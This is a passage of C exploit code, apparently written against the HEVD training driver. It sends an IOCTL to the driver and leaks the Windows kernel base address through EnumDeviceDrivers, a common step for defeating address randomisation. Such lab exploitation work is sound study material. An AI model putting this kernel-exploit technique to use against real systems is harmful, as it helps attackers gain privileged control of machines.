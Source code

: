 ```c
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}

UINT64 GetKernelBaseAddress() 
{
    ULONG_PTR  pKernelBaseAddress = 0;
    LPVOID    *lpImageBase = NULL;
    DWORD      dwBytesNeeded = 0;

    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to retrieve size needed for device driver entries\n");
        return -1;
    }

    if (!(lpImageBase = (LPVOID *)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate space for lpImageBase\n");
        if (lpImageBase) 
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers failed: %d", GetLastError());
        if (lpImageBase) 
             HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    pKernelBaseAddress = ((ULONG_PTR *)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[+] Kernel Base Address calculated: %llx\n", pKernelBaseAddress);

    return (UINT64)pKernelBaseAddress;
}
```
